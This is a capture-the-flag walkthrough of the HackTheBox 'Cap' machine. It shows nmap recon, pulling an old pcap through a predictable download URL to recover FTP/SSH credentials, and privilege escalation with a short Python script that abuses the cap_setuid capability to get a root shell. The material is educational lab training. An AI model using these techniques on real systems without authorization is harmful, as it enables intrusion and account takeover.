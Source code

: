 ```yaml
---
title: "HackTheBox: Cap - Walkthrough"
description: "A writeup for the Cap machine on HackTheBox"
excerpt_separator: "<!--more-->"
toc: true
toc_label: "HackTheBox - Cap"
toc_icon: "stream"
toc_sticky: true
categories:
  - hackthebox
tags:
  - Writeup
  - HackTheBox
  - CTF
---
```

## Introduction

[Cap](https://www.hackthebox.eu/home/machines/profile/351) is an easy difficulty room on the [HackTheBox](https://app.hackthebox.eu/) platform. The box consists of a web application that allows us download pcap files. One of the pcap files contains credentials we can use to login into the FTP server to gte the first flag. After this, we can use the same credentials to login to the box via SSH as the user and exploit a linux SUID capability that allows us to obtain a root shell via python.


|---|---|
|Name|Cap|
|IP Address|10.10.10.245|
|OS|Linux|
|Released|05 Jun 2021|
|Retired|02 Oct 2021|
|---|---|

---

## Recon

We start off with by running nmap on the target, scanning for all ports using the stealth scan option `-sS` and performing service and version detection `-sV`.

> *The services on the machine can take some time to start up, so give the machine a minute or two before starting the scan.*

`sudo nmap -sS -sV -p- 10.10.10.245 -oN cap.nmap`

```
$ sudo nmap -sS -sV -p- 10.10.10.245 -oN palsforlife.nmap

```

We can see that ports `21`, `22` and `80` are open. Let us enumerate each of these ports.

---

### Port 21

We can check if anonymous login is enabled.

```
$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:): anonymous
331 Please specify the password.
Password:
530 Login incorrect.
```

It appears that a password is required. We could try bruteforcing the ftp login using the `hydra` and the following [wordlist](https://github.com/danielmiessler/SecLists/raw/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt), however it appears that none of these work.

Let us revisit this port later.

---

### Port 22

We can try to fingerprint what is version of SSH is running on port 22 along with the possible operating system.

```
$ nc -nvvv 10.10.10.245 22
(UNKNOWN) [10.10.10.245] 22 (ssh) open
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.2
```

It appears that it is running Ubuntu. Aside from this, we cannot do much with this port. Let us move on. 

---

### Port 80

From our nmap scans, we are able to determine that a Gunicorn webserver is running on port 80. Opening [http://10.10.10.245/](http://10.10.10.245/) in a web browser, we find a security dashboard application, which appears to be a static dashboard. 

![web-app-dashboard](/img/cap/port80-dashboard.png)

Browsing through the application, we find that application has functionalities to perform various network based operations such as IP config and packet capture. 

The tab titled `Security Snapshot` has the functionality to download a packet capture of the last 5 seconds along with various metrics after an analysis of the capture.

![pcap-snapshot-tab](/img/cap/snapshot-tab.png)

Clicking the download button will download a file called `1.pcap`. Opening the file in Wireshark, we can see that the traffic that was captured in the last 5 seconds. 

### Credential found in pcap file

Notice how the URL is http://10.10.10.245/data/1. By observing the traffic in a proxy like BurpSuite, we can see that clicking on the download button makes a GET request to http://10.10.10.245/download/1.

It is quite possible that there are other files that were made before this one. Let us try to get `http://10.10.10.245/download/0`.

![0-pcap](/img/cap/0-pcap.png)

Opening this file, we can see username and password for user `nathan` in the FTP data.

![0-pcap](/img/cap/nathan-creds.png)

Using these credentials, we will be able to login to the FTP server.

### Login via SSH 

We can login via SSH using Nathan's credentials, we can see that user.txt is present.

```
$ cat user.txt 
5194****************************
```

Note that we can login to the FTP server with the same credentials and find user.txt there as well since the ftproot is in nathan's home directory.

![ftp-dir](/img/cap/ftp-dir.png)

---

## Privilege Escalation

### Enumeration

We can upload the linPEAS script onto the target via scp to determine possible privilege escalation vectors.

```
$ scp ./linpeas.sh nathan@10.10.10.245:/dev/shm/
nathan@10.10.10.245's password: 
linpeas.sh                                    100%  442KB   2.8MB/s   00:00
```

We run the script and find that there is an interesting linux capability for python.

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

The `cap_setuid` capability allows python to set the effective user id of the created process. This means we can very easily abuse it to escalate privileges to root.

### Escalate to root

Let us create a simple python script that should give us an elevated shell

```
import os
os.setuid(0)
os.system("/bin/bash")
```

Execute using `/usr/bin/python3.8 <filename>.py`.

This will give us a root shell.

![root-shell](/img/cap/root-shell.png)

We can now access root.txt in `/root`

```
# cat root.txt
cc55****************************
```

---